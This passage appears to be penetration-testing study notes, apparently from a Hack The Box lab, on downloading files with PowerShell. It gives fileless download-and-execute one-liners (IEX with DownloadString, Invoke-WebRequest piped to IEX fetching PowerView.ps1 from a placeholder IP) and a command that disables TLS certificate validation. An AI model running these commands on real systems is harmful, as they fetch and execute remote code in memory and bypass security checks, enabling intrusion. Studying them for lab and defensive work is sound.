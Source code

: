 
We can specify the class Net.WebClient and the method DownloadFile to download the file.

```
PS > (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

PS > (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
     
## PowerShell DownloadString - Fileless Method

Fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias IEX.

```
PS > IEX (New-Object Net.WebClient).DownloadString('url')
```

#### IEX also accepts pipeline input.

```
PS > (New-Object Net.WebClient).DownloadString('url') | IEX
```


## PowerShell Invoke-WebRequest

    You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

```
    PS > Invoke-WebRequest url -OutFile outfile.ps1
```

[other powershell downoad methods](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

    

## Common Errors with PowerShell

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
This can be bypassed using the parameter -UseBasicParsing.

```
    PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
    
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

    !"The underlying connection was closed: Could not establish trust

```
    PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```


